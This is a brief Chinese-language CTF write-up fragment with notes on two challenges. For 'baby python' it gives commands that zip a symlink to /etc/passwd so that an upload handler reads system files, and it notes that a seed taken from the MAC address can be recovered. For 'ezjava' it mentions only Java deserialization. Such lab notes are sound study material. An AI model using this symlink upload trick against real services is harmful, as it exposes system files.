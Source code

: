 ### baby python
上传压缩包,存在软连接读取文件

```bash
ln -s /etc/passwd passwd
zip --symlinks passwd.zip passwd
```

random.seed(uuid.getnode())
种子的生成
读取 /sys/class/net/eth0/address


### ezjava
#java反序列化 


